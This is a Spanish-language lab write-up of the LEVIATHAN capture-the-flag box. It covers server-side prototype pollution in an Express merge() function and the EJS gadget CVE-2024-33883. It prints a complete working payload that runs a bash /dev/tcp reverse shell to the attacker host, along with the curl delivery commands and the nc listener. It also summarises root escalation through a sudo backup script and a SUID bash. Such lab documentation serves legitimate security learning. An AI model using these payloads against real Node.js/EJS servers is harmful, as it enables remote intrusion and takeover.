# LEVIATHAN — Auditoría de seguridad y writeup

> **Laboratorio:** Whoami-Labs — LEVIATHAN  
> **Dificultad:** Hard  
> **Enfoque:** Caja negra (sin acceso previo al código)  
> **MITRE ATT&CK:** T1190 — Exploit Public-Facing Application  
> **NIST:** SP-DEV-002 (Software Security Assessor)  
> **Objetivo:** `172.17.0.2`  
> **Analista:** `chifay`  
> **Fecha:** 2026-11-17  

## Resumen ejecutivo

El laboratorio expone un dashboard Node.js/Express en el puerto 80. El endpoint
`POST /api/profile` acepta JSON y lo fusiona en el estado interno del servidor.
Las pruebas de contaminación de prototipo mostraron que la fusión es insegura:
la clave `__proto__` permite escribir en `Object.prototype`, es decir, una
**Prototype Pollution** del lado del servidor. La lectura posterior de
`/app/server.js` confirmó que se trata de una función `merge()` recursiva.

El render de `/` se comportaba como EJS. Se probó el gadget público de
**CVE-2024-33883** (EJS < 3.1.10) y funcionó: al contaminar `client` y
`escapeFunction`, EJS inserta el valor en el código JavaScript que compila para
la plantilla y lo ejecuta. La lectura posterior de `/app/package.json` confirmó
EJS 3.1.9. Esto permite ejecutar comandos como el usuario `leviathan`, que es
el usuario con el que corre el proceso Node.js.

Finalmente, `leviathan` puede ejecutar `sudo /opt/scripts/backup.sh` sin
contraseña. El script hace `source` de `/home/leviathan/.backup_config`, un
archivo controlado por el usuario, lo que permite ejecutar comandos como root
y crear una bash SUID. Se obtuvieron así las dos flags del laboratorio.

| Flag | Valor |
|---|---|
| Usuario | `Leviathan{REDACTED}` |
| Root | `Leviathan{REDACTED}` |

> **Nota de publicación:** esta es una versión pública del writeup. Las flags
> reales se han sustituido por `Leviathan{REDACTED}` y se han difuminado en las
> capturas donde aparecían.

## 1. Alcance y metodología

El alcance fue el contenedor Docker `172.17.0.2`. La auditoría se realizó
**exclusivamente en caja negra**: reconocimiento, enumeración HTTP, pruebas de
comportamiento y explotación contra el servicio en vivo. No se utilizó acceso
al host, al socket Docker ni al código fuente antes de comprometer la
aplicación. El código se leyó únicamente después del RCE, para confirmar la
causa raíz y documentar la remediación.

Herramientas utilizadas: `nmap`, `curl`, `jq`, `nc`, `ffuf` (enumeración
inicial), y revisión manual de las respuestas HTTP y del comportamiento de
Express/EJS.

### 1.1 Enfoque de caja negra

La secuencia seguida fue:

1. **Reconocimiento**: puerto 80, cabeceras de Express y descubrimiento del
   endpoint `/api/profile` a partir del JavaScript del dashboard.
2. **Pruebas de fusión**: `POST /api/profile` acepta JSON y devuelve
   `{"status":"Profile updated"}`; se comprobó que `__proto__` altera el
   comportamiento del render.
3. **Detección del gadget**: se usó un marcador inocuo en `escapeFunction`
   para confirmar la contaminación y el motor EJS sin leer el código. El
   detector clásico `json spaces` no fue observable; después se confirmó que
   Express 4.18.2 no consulta `Object.prototype` en `app.set()`.
4. **Explotación**: reverse shell como `leviathan` y lectura de las flags.
5. **Confirmación**: ya con acceso, se leyeron `/app/server.js`,
   `/app/package.json` y `/app/views/index.ejs` para verificar la función
   `merge()` y la versión exacta de EJS.
6. **Escalada**: enumeración de `sudo`, análisis del script de backup y bash
   SUID para obtener root.

El detalle de la lectura del código en caja negra, incluida la variante sin
shell, está en la sección 5.5 y en el Anexo A.

## 2. Reconocimiento

### 2.1 Puerto expuesto

```bash
nmap -sT -Pn -p- --min-rate 5000 172.17.0.2
```

Solo hay un servicio accesible:

```text
PORT   STATE SERVICE
80/tcp open  http
```



### 2.2 Servicio web

```bash
curl -s -i http://172.17.0.2/ | head -12
```

La respuesta confirma Express y una aplicación web:

```text
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 7332
```



El HTML incluye un comentario y una llamada a un endpoint de descubrimiento:

```html
<script>
    // Discovery script for players
    async function loadProfile() {
        const response = await fetch('/api/profile');
        const data = await response.json();
        console.log("[LEVIATHAN] Profile config loaded:", data);
    }
</script>
```

```bash
curl -s http://172.17.0.2/ | grep -nE "fetch|api/profile|Discovery"
```

```text
199:        // Discovery script for players
202:                const response = await fetch('/api/profile');
```



### 2.3 Endpoint `/api/profile`

```bash
curl -s http://172.17.0.2/api/profile | jq
```

```json
{
  "theme": "dark",
  "version": "1.0.4",
  "last_sync": "2026-11-18T00:04:58.999Z"
}
```



La enumeración de métodos muestra que el endpoint acepta `POST`:

```bash
curl -s -i -X OPTIONS http://172.17.0.2/api/profile | head -8
```

```text
HTTP/1.1 200 OK
Allow: GET,HEAD,POST
```



El resto de rutas y archivos comunes devolvió `404`, por lo que la superficie
principal es el dashboard y la API de perfil.

### 2.4 Fingerprinting del motor de plantillas

El dashboard es HTML generado en el servidor. Las respuestas y los errores no
exponían la versión del motor, así que se trabajó por comportamiento:

- `X-Powered-By: Express` confirma el framework, pero no el motor de vistas.
- El endpoint `GET /api/profile` devuelve JSON fijo; `POST` acepta JSON
  arbitrario y responde `{"status":"Profile updated"}`, lo que sugiere una
  fusión de objetos en el servidor.
- Se probó el detector clásico de Prototype Pollution en Express basado en
  `json spaces`: `{"__proto__":{"json spaces":10}}` no alteró el formato del
  JSON. La explicación se confirmó después: Express 4.18.2 no consulta
  `Object.prototype` en `app.set()`.
- El indicador que sí funcionó fue un marcador en el gadget de EJS
  (`client` + `escapeFunction`), descrito en la sección 5.1.

La versión exacta de EJS y el código de la aplicación se confirmaron después
del RCE, leyendo los archivos del servicio (sección 5.5).

## 3. Vulnerabilidad 1 — Prototype Pollution en la fusión de JSON

El endpoint `POST /api/profile` acepta un cuerpo JSON y lo fusiona en el estado
interno. La primera prueba fue enviar una propiedad `__proto__`:

```bash
curl -s -X POST -H 'Content-Type: application/json' \
  -d '{"__proto__":{"theme":"pwned"}}' http://172.17.0.2/api/profile
```

```json
{"status":"Profile updated"}
```

`GET /api/profile` seguía mostrando `theme: "dark"` porque ese valor es una
propiedad propia del objeto de respuesta. El efecto de la contaminación es
global y se manifiesta en los objetos internos que Express/EJS crean después;
por eso la API no lo refleja, pero el render sí.

La confirmación en caja negra se hizo con un marcador en el gadget de EJS
(sección 5.1): si `GET /` devuelve el marcador en lugar del dashboard, la
contaminación de `Object.prototype` es real y afecta al render.

> **Observación de disponibilidad:** durante las pruebas, un objeto anidado
> como `{"__proto__":{"x":{"y":1}}}` provocó recursión infinita y hizo que los
> `POST` posteriores devolvieran `400 Invalid JSON`. Es un efecto colateral de
> denegación de servicio de la misma vulnerabilidad; se revirtió sobrescribiendo
> la propiedad con un valor primitivo.

La implementación exacta de la fusión (`merge()` recursiva con `for...in`) se
confirmó tras el RCE y se documenta en la sección 5.5.

## 4. Vulnerabilidad 2 — Gadget de EJS (CVE-2024-33883)

El render de `/` se comportaba como EJS. En lugar de asumir una versión, se
probó el gadget público de **CVE-2024-33883**, que afecta a EJS anteriores a
3.1.10. El código de la librería es público (npm/GitHub); el gadget documentado
para EJS 3.1.9 es el siguiente (la versión se confirmó después del RCE):

```javascript
options.client = opts.client || false;
options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;
```

```javascript
if (opts.client) {
  src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
  ...
}
```

Si `client` es verdadero y `escapeFunction` es una cadena controlada por el
atacante, EJS inserta esa cadena directamente en el código fuente de la
función que compila con `new Function(...)`. La función se ejecuta cuando
Express renderiza la plantilla. La librería no filtra suficientemente las
opciones que hereda del prototipo.

La cadena completa queda así:

```text
POST /api/profile
  -> fusión del JSON en el estado interno
  -> __proto__.client = true
  -> __proto__.escapeFunction = <código JavaScript>
  -> GET / (res.render('index', ...))
  -> EJS compila con client=true y escapeFunction contaminado
  -> src = "escapeFn = escapeFn || 1; <código>; return '';"
  -> new Function(src) y ejecución
  -> RCE como leviathan
```

La versión exacta (EJS 3.1.9) se confirmó después del RCE, al leer
`/app/package.json` (sección 5.5).

## 5. Explotación inicial

### 5.1 Detección del gadget con un marcador

Antes de lanzar una reverse shell se confirmó la contaminación con un marcador
inocuo. `escapeFunction` se ejecuta al renderizar, así que un `return` con una
cadena conocida es suficiente para observar el efecto en la respuesta HTTP:

```bash
jq -cn --arg e "1;return 'LEVIATHAN_PP_MARKER';" \
  '{__proto__:{client:true,escapeFunction:$e}}' > /tmp/pp-marker.json

curl -s -X POST -H 'Content-Type: application/json' \
  --data @/tmp/pp-marker.json http://172.17.0.2/api/profile
curl -s http://172.17.0.2/
```

```text
{"status":"Profile updated"}
LEVIATHAN_PP_MARKER
```

La respuesta ya no es el dashboard: EJS compiló el valor contaminado de
`escapeFunction` y ejecutó el `return`. Esto confirma la Prototype Pollution y
el gadget sin haber leído el código de la aplicación. El payload exacto está en
`evidence/blackbox-marker.json`.

### 5.2 Construcción del payload

Se genera el JSON con `jq` para manejar correctamente las comillas:

```bash
jq -cn --arg e "1;process.mainModule.require('child_process').execSync('bash -i>&/dev/tcp/172.17.0.1/4444 0>&1',{shell:'/bin/bash'});return '';" \
  '{__proto__:{client:true,escapeFunction:$e}}' > /tmp/pp.json
```

El payload resultante:

```json
{
  "__proto__": {
    "client": true,
    "escapeFunction": "1;process.mainModule.require('child_process').execSync('bash -i>&/dev/tcp/172.17.0.1/4444 0>&1',{shell:'/bin/bash'});return '';"
  }
}
```

Detalles del gadget:

- `1;` completa la expresión `escapeFn = escapeFn || 1;` y permite continuar
  con la siguiente sentencia.
- `process.mainModule.require('child_process')` obtiene el módulo de procesos;
  el proceso corre en CommonJS y `process.mainModule` está disponible (el
  payload se ejecutó correctamente contra el objetivo).
- `execSync(..., {shell:'/bin/bash'})` ejecuta la redirección `/dev/tcp` con
  bash, que es quien soporta ese pseudo-dispositivo.
- `return '';` evita que EJS siga generando la salida y hace que el render
  devuelva una cadena vacía.



### 5.3 Contaminación del prototipo

Se envía el JSON al endpoint vulnerable:

```bash
curl -s -X POST -H 'Content-Type: application/json' --data @/tmp/pp.json \
  http://172.17.0.2/api/profile
```

Respuesta:

```json
{"status":"Profile updated"}
```



### 5.4 Listener y disparo del render

En Kali se abre un listener:

```bash
nc -lvnp 4444
```



Después se solicita la página principal. El render de EJS compila la plantilla
con las opciones contaminadas y ejecuta el comando:

```bash
curl -s -o /dev/null -w "HTTP %{http_code}\n" http://172.17.0.2/
```

La petición queda pendiente mientras el reverse shell está activo, porque
`execSync` es síncrono y espera a que termine el proceso bash. En la captura se
observa el comando lanzado; la conexión aparece en la otra terminal.



La reverse shell se recibe como `leviathan`:

```text
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 39934
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
leviathan@e27cbd55ae81:/app$
```



### 5.5 Confirmación del código y de la causa raíz

Ya con acceso como `leviathan` se leyeron los archivos de la aplicación para
confirmar lo observado en caja negra:

```bash
cat /app/server.js
cat /app/package.json
```

La fusión insegura es una función `merge()` recursiva que recorre las claves
con `for...in`:

```javascript
function merge(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (typeof target[key] !== 'object' || target[key] === null) {
                target[key] = {};
            }
            merge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
}
```

`JSON.parse()` conserva `__proto__` como propiedad propia, de modo que en la
recursión `target["__proto__"]` resuelve a `Object.prototype` y la fusión
escribe en el prototipo global. Las dependencias confirman la versión
explotada:

```json
"dependencies": {
  "body-parser": "^1.20.2",
  "ejs": "3.1.9",
  "express": "^4.18.2"
}
```

El servidor también fija `app.set('view cache', false)`, por lo que cada
`res.render()` vuelve a compilar la plantilla y el gadget se dispara en cada
petición a `/`. Los hashes de los archivos recuperados están en
`evidence/blackbox-hashes.txt`; el procedimiento completo, incluida la
variante que lee el código por HTTP sin shell, está en el Anexo A.

## 6. Post-explotación — Flag de usuario

```bash
id; hostname; uname -a; pwd
```

```text
uid=1000(leviathan) gid=1000(leviathan) groups=1000(leviathan)
e27cbd55ae81
Linux e27cbd55ae81 7.2.15+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.2.15-1kali1 (2026-11-03) x86_64 GNU/Linux
/app
```

